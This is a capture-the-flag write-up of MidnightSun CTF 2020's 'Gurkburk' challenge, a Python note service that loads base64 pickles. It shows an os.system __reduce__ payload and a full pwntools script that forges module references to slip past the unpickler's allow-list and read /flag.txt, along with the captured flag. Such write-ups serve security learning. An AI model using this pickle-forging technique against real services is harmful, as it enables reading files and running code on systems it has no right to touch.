

Gurkburk: Web - MidnightSun CTF 2020
===
Played with [npi](https://twitter.com/n0pwnintended)!!

## The challenge
The challenge is a simply note-taking service, written in python( as challenge descriptions says ), with an intresting feature: Load/Save notes:



## Exploit

After random attemps (create note, erase ecc) and after 'Save notes', the service tells me this:

```
Here is your loading code: Y2NvcHlfcmVnCl9yZWNvbnN0cnVjdG9yCnAwCihjX19tYWluX18KTm90ZXMKcDEKY19fYnVpbHRpbl9fCm9iamVjdApwMgpOdHAzClJwNAooZHA1ClZuYW1lCnA2ClZNeSBub3RlcwpwNwpzVm5vdGVzCnA4CihscDkKVkNpYW8KcDEwCmFzYi4=
```
Uhmm! Base64, Okay, let's try to decode it:
```
ccopy_reg
_reconstructor
p0
(c__main__
Notes
p1
c__builtin__
object
p2
Ntp3
Rp4
(dp5
Vname
p6
VMy notes
p7
sVnotes
p8
(lp9
VCiao
p10
asb.
```
Well, this is a [pickle](https://docs.python.org/3/library/pickle.html) dumps. 

### First Attemps: RCE
With reduce and os.system let's try to make an rce payload:
```python
import os
class X:
    def __reduce__(self):
        return os.system, ("echo 'pwned'",)
```
...send to service:
```
_pickle.UnpicklingError: Your pickle is trying to load something sneaky. Only the modules __main__, __builtin__ and copyreg are allowed. eval and exec are not allowed.
```
Very sad, but it tells us something useful( sad but useful): only \_\_main\_\_ (sure, class Notes is in main module) and \_\_builtin\_\_ are allowed. 
The description says: ```The flag is in ./flag.txt```.

Good: open function is in builtin methods.

### Second Attemps: Craft a Notes istance with fd as note

We do not have source code (the files in ctf-files was leaked by exploit), but now, we know some things:

* From pickle dump: Notes.notes is an array
* By simply guessing: Listing feature uses a iterator-based (```for```) cycle:

Good news: open function returns an iterator over lines, too.

Let's make a more complex payload (with some OSINT obv):
```python
import pickle, sys, re, base64
from pwn import remote


class FakeModules(type(sys)):
    modules = {}

    def __init__(self, name):
        self.d = {}
        super().__init__(name)

    def __getattribute__(self, name):
        d = self()
        return d[name]

    def __call__(self):
        return object.__getattribute__(self, "d")

def add_module(s):
    # ADD MODULE
    mod, name = s.split(".")
    if mod not in FakeModules.modules:
        FakeModules.modules[mod] = FakeModules(mod)
    d = FakeModules.modules[mod]()
    if name not in d:
        def f(): pass
        f.__module__ = mod
        f.__qualname__ = name
        f.__name__ = name
        d[name] = f
    return d[name]

def dumps(obj):
    pickle.dumps = pickle._dumps
    orig = sys.modules

    # INJECT FAKE MODULES
    sys.modules = FakeModules.modules
    s = pickle.dumps(obj)
    sys.modules = orig
    return s

def craft(func, *args, dict=None, list=None, items=None):
    # UTILS FOR __REDUCE__
    class X:
        def __reduce__(self):
            tup = func, tuple(args)
            if dict or list or items:
                tup += dict, list, items
            return tup
    return X()


class Exploit:


    def __init__(self, host, port) -> None:
        self.p = remote(host, port)

    def load(self):
        cal = craft(add_module("__main__.Notes"), dict={
            "notes" :craft(add_module("__builtin__.open"), "/flag.txt")
            }
        )
        payload = base64.b64encode(dumps(cal))
        self.send_command("l", payload)

    
    def list_notes(self):
        return self.send_command("d")
    
    def get_flag(self):
        self.load()
        text = self.list_notes()

        pattern = r'(midnight{.*})'
        flags = re.findall(pattern, text.decode())

        if len(flags)>0:
            return flags[0]

    def send_command(self, command, arg=None):
        self.p.recvuntil("==>")
        self.p.sendline(command)
        
        if arg:
            self.p.recvuntil(":")
            self.p.sendline(arg)
            
        results = self.p.recvuntil("*")
        return results


e = Exploit("gurkburk-01.play.midnightsunctf.se", 37541)
print("FLAG =>" , e.get_flag())

```

It works: ```midnight{d311c10u5_p1ck135_f0r_3v3ry0n3}```